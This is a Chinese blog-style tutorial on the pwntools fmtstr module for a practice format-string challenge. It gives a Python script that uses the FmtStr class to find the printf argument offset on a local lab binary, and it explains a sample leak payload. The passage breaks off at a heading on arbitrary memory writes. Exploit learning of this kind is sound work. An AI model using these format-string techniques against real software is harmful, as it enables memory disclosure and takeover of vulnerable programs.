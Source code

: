 
![image-20220623231250354](https://img2022.cnblogs.com/blog/2080041/202206/2080041-20220623231251389-726448963.png)

pwnlib.fmtstr学习
---------------

这里学一下`pwnlib.fmtstr`模块，因为我们每次都手动去调试，去获取`格式化字符串`在printf是`第几个参数`，构造`任意地址内存覆盖`的Payload都很花费时间，而且都只是些体力活。

所以这种事情为何不交给`py`去做呢，这里就不详细的去分析模块源码以及他原理的东西了(`原理基本也和我们手动差不多`)。

### FmtStr类(获取参数偏移)

在`pwnlib.fmtstr`模块中有一个`FmtStr`的类，他的主要用途是自动给你构造一个payload用于泄漏出`格式化字符串`的堆栈地址，并且可以用`offset`参数自动得到`格式化字符串`在printf堆栈中是`第几个参数`。(往常我们都是去手动调试，计算。)

题目还是之前的：任意地址内存覆盖(任意写)的题目

    #用FmtStr类获取`格式化字符串`在printf函数中的参数位置(偏移)
    from pwn import *
    context(arch='i386',os='linux')
    context.terminal = ['tmux','splitw','-h']
    #p = process('./overflow')#这FmtStr有个坑啊，我看网上文章都这样写，我调试好久才发现，这个p=process('./overflow')不能写在这里.要写到exec_fmt函数里
    
    def exec_fmt(payload): #固定写法
        p = process('./overflow')
        gdb.attach(p,'b printf')
        p.recvline()#先接收printf,省的卡住
        #看看,FmtStr类给我们构造的paylaod
        print(payload)
        p.sendline(payload)
        info = p.recv()
        #看看返回的数据
        print(info)
        return info
    
    if __name__ == '__main__':
        print("准备泄漏出(格式化字符串)在printf函数参数中的位置:")
        auto_fmtstr = FmtStr(exec_fmt)
        print("(格式化字符串)在printf函数中参数的位置是:{0}".format(auto_fmtstr.offset)
    

讲解：

FmtStr类帮我们自动构造了Payload，类似：`b'aaaabaaacaaadaaaeaaaSTART%1$pEND`,其中这个`%1$p`很熟悉，是泄漏出第一个参数的地址。

然后FmtStr利用py正则在返回的字符串中找到START就可以获取到第一个参数的地址，然后再它在挨个遍历，知道堆栈中地址也是第一个参数地址就得到偏移。

![image-20220624151308812](https://img2022.cnblogs.com/blog/2080041/202206/2080041-20220624151308931-379121004.png)

![image-20220624151827951](https://img2022.cnblogs.com/blog/2080041/202206/2080041-20220624151827903-718372244.png)

![image-20220624152404124](https://img2022.cnblogs.com/blog/2080041/202206/2080041-20220624152404140-1650576384.png)

### fmtstr\_payload(任意地址内存覆盖)
